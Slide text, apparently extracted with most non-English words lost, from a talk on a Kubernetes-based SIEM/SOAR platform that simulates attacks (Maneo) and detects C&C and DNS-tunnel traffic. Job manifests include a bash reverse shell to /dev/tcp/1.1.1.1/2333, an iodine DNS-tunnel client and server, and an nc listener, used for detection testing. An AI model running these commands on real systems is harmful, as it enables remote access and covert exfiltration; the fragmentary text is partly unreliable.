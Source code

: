 kubernetes 



 
1. SIEMSOAR
2. KUBERNETES
3. 

SIEMSOAR
SIEM 101

SIEMSOAR
 

SIEMSOAR


SIEMSOAR



/grafana/api/datasources/query?db=test&q=;SELECT mean("A1") FROM "statistic" WHERE ("exchange" = '1') AND time >= 1564448400000ms and time <= 1564473599999ms GROUP BY time(1m)&epoch=ms

location / { proxy_pass http://xxx:80; proxy_set_header X-Forwarded-For $proxy_add_x_forwarded_for; ... ...
}

SIEMSOAR


SIEMSOAR
SIEMSOAR
Gartner

SIEMSOAR


API API

API API WorkFlow 

SIEMSOAR PlayBook 

SIEMSOAR
More Toolkits

SIEMSOAR
 
DevOps

SIEMSOAR
We Use Kubernetes

KUBERNETES

- Build OnceDeploy Everywhere
  

- 
FOCUS ON  API

- Scalable
 

KUBERNETES

hadoop

Elasticsearch

logstash

kafka

Flink

Rule Engine Machine Learning

Maneo
kubernetes

Playbook

KUBERNETES
Elasticsearch on K8S

KUBERNETES
Kafka on K8S

KUBERNETES
Flink on K8S

KUBERNETES

Jenkins Build
git

Docker

K8S Deploy

Rolling Update

Live Scale

KUBERNETES
Maneo

KUBERNETES
apiVersion: batch/v1 kind: Job metadata: name: case-tunnel-dns-iodine-direct-victim spec: activeDeadlineSeconds: 300 backoffLimit: 0 spec: containers:
... ...


KUBERNETES

- name: iodine image: registry.cn-hangzhou.aliyuncs.com/maneo/iodine imagePullPolicy: Always command: - iodine - -P - passwd - -f - -r - -T - TXT - case-tunnel-dns-iodine-direct-attacker - abc.com
kubectl apply 

- name: shell image: ubuntu:18.04 imagePullPolicy: Always command: - bash - -c - "sleep 20 && bash -i >& /dev/tcp/1.1.1.1/2333 0>&1" stdin: true tty: true
ContainerPod
kubernetestty

KUBERNETES

- name: tcpdump image: registry.cn-
hangzhou.aliyuncs.com/maneo/tcpdump imagePullPolicy: Always command: - sh - -c - 'tcpdump -i eth0 -w /pcap/$(date "+%Y%m%d")-
$(hostname).pcap' volumeMounts: - name: pcap-storage mountPath: /pcap/
tcpdump

- name: zeek image: registry.cn-hangzhou.aliyuncs.com/maneo/ze imagePullPolicy: Always volumeMounts: - name: share mountPath: /opt/bro/spool/bro/ - name: filebeat image: docker.elastic.co/beats/filebeat:7.0.0 imagePullPolicy: Always volumeMounts: - name: filebeat-yml mountPath: "/usr/share/filebeat/filebeat.yml" subPath: "filebeat.yml" - name: share mountPath: /logs/current/

zeekfilebeat

KUBERNETES

apiVersion: networking.k8s.io/v1 kind: NetworkPolicy metadata:
name: iodine-network-policy
spec: podSelector: matchLabels: yy: xx
policyTypes: - Ingress - Egress
network policy


 Maneo

KUBERNETES

apiVersion: batch/v1 kind: Job metadata: name: case-tunnel-dns-iodine-direct-attacker spec: containers:
- name: iodine image: registry.cn-hangzhou.aliyuncs.com/maneo/iodine command: - iodined - -P - passwd - -f - -DDD - 1.1.1.1 - abc.com ports: - containerPort: 53 protocol: UDP


- name: nc image: registry.security.team:80/alpine:3.9 # image: alpine:3.9 imagePullPolicy: Always command: - sh - -c - "nc -lvp 2333 2>&1 > /dev/null" stdin: true tty: true ports: - containerPort: 2333 protocol: TCP volumes: - name: dev-net-tun hostPath: path: /dev/net type: Directory

CASE1

Event 

class EnrichmentFunction extends CoProcessFunction [Event, Ioc, EventEnrich] {...}
Filter()

Event


Top X  ... ...

Filter(:true) -> Map -> Sink: Kafka

Filter(black:true) -> Map -> Sink: out

API





xxx.com      AB  ABDC&oABxDCrCx&koxxDbrC.xkoocMxbotr.komacMbotlwomatalwreare
C&CMalware

CASE2DNS TUNNEL

01 02


1.  2. TXT 3. CNAME 4. GEO 5. NXDomain 6. 


03


1.  2. popular 3.  4.  5.  6.  7.  8. 5 9.  10. 

|SELECT ip, domain, LASTVALUE(Hour_count) as lastv, AVG(Hour_count) as avgv,

11. ... ...

STDDEV_SAMP(Hour_count) as stdsv,

|FROM dailyCount |GROUP BY operator_no, fund_account

`$ ' |HAVING lastv > avgv + threshold1 * stdsv AND ABS(stdsv - stdsvLastHour) > + `$threshold2'

THANKS


